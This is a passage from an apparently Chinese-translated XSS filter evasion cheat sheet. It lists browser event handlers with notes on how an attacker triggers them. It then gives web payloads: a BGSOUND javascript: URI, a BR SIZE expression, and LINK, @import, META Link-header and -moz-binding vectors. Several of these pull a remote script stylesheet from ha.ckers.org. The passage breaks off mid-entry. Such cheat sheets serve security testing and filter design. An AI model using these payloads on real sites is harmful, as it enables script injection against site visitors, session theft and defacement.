  100. onTimeError() (用户或攻击者需要设置一个时间属性例如 dur 的值为无效的值)
 101. onTrackChange() (用户或攻击者需要改变播放列表的轨迹)
 102. onUndo() (user went backward in undo transaction history)
 103. onUnload() (当用户点击一个链接或是按下回车键或是攻击者触发一个点击事件)
 104. onURLFlip() (this event fires when an Advanced Streaming Format (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia Extensions) media tag, processes script commands embedded in the ASF file)
 105. seekSegmentTime() (this is a method that locates the specified point on the element's segment time line and begins playing from that point. The segment consists of one repetition of the time line including reverse play using the AUTOREVERSE attribute.)

-----
##BGSOUND(背景音乐)##

    <BGSOUND SRC="javascript:alert('XSS');">

----
##& JavaScript 包含##

    <BR SIZE="&{alert('XSS')}">

-----
##样式表##

    <LINK REL="stylesheet" HREF="javascript:alert('XSS');">

-----
##远程样式表##
（通过某些方式例如最简单的远程样式表，你可以在表达式类型的样式参数中嵌入xss代码）。它是仅仅工作在IE浏览器或是使用了IE渲染引擎的Netscape 8.1+。需要注意的是页面中并没有展现出它包含了javascript代码。注意：所有的远程样式表xss需要至少页面包含body标签，否则将无法工作。或者页面中包含除了向量本身外的其他内容。因此如果它是一个空白页面，你需要添加至少一个字母到页面确保它可以工作。

    <LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">

------
##远程样式表2##
原理与上面相同。但是使用了STYLE标签代替LINK标签。与此向量稍有不同的变异型曾被用于攻击Google Desktop。你也可以移除&#x3C;/STYLE>标签让后面的html去闭合它。在不允许输入等号或是反斜杠的实际环境中这个向量是有用的。

    <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>

----
##远程样式表3##
它仅仅可以工作在 Opera 8.0 (no longer in 9.x) ，但它是非常的阴险。根据RFC2616规定，设置一个http头不是 HTTP1.1 规定的一部分，但是很多浏览器仍然允许它（例如Firefox and Opera）。这个技巧是我们可以设置一个http头（与常规http头没有什么不同，除了 Link: <http://ha.ckers.org/xss.css>; REL=stylesheet）。这样带有xss代码的远程向量将运行javascript。它不被支持在 FireFox。

    <META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">

----
##远程样式表4##
它是仅仅工作在 Gecko 渲染引擎。并且需要绑定一个 XUL文件在页面。令人讽刺的是Netscape认为Gecko是更加安全的，因此绝大多是网站会受到这个攻击。

    <STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>

------
##分隔javascript在STYLE标签##
这个xss在ie浏览器中会造成无线循环的弹窗
